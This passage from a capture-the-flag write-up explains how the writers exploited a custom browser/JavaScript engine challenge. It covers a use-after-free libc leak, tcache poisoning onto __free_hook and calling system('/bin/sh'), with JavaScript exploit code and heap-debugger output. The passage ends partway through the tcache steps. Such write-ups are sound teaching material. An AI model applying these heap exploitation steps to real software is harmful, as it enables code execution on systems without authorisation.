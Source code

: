 ### Plan
Eventually, we decided to try the following exploit:
1. Leak libc using UAF
2. Tcache poison to allocate a chunk on the `__free_hook`
3. Set `__free_hook` to `system` or `one_gadget`
4. Free a chunk containing `/bin/sh\x00`
5. win :D

# Libc Leak

We created a chunk with size 0x1000, freed it and then inspected its contents. We got a libc pointer in the second QWORD of the chunk.

```javascript
function hex(a) {
  var result = "";

  for (var i = 7; i >= 0; i--) {
    result += ('0' + a[i].toString(16)).slice(-2);
  }

  return result
}

function alloc_list(sz, chr) {
  var arr = [];
  for (var i = 0; i < sz; i++) {
      arr.push(chr);
  }
  return arr;
}

big_list = alloc_list(0x1000, 0x41);
big_list_typed = new Uint8Array(big_list);
big_list_typed.midnight();

libc_leak_str = hex(big_list_typed);
libc_leak = parseInt(libc_leak_str, 16);
libc_base = libc_leak - 0x1ed350;
```

# Tcache Poison

Many operations influence the heap layout and the bins. Using functions like `console.log` affected both our leaks, and other operations affected our ability to properly write to the freed chunks.


After a lot of tweaking, we developed working exploit ([pwn.js]({{ "/assets/code/midnightQuals22/hfs_browser/pwn.js" | relative_url }})):

1. Alocate a chunk of size 0x1e0.
We chose 0x1e0 since the Tcache was already populated, meaning we would not have problems with the chunk counter.
```javascript
chunk = new Uint8Array(0x1e0);
```
2. Free the chunk
```javascript
chunk.midnight();
```
Tcache:
```
Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a80, size=0x1f0, flags=PREV_INUSE)  ←  Chunk(addr=0x4c5960, size=0x1f0, flags=PREV_INUSE) 
```